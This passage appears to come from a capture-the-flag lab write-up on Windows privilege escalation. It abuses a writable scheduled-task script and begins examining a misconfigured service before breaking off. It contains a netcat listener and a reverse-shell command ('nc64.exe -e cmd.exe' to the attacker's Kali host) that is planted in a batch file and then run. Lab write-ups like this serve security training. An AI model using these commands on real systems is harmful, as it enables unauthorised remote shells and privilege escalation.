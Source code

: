 **Kali**

```
nc -lvnp 4444
```

**Victim**

```
echo c:\tools\nc64.exe -e cmd.exe $KALI 4444 > C:\tasks\schtask.bat
schtasks /run /tn vulntask
```

<figure><img src="../../.gitbook/assets/image (30) (1) (3).png" alt=""><figcaption></figcaption></figure>

## Abusing Service Misconfigurations

### Insecure Permissions on Service Executable

**Get the flag on svcusr1's desktop**

**Victim(cmd)**

```
sc qc WindowsScheduler
```

<figure><img src="../../.gitbook/assets/image (21) (5) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(cmd)**
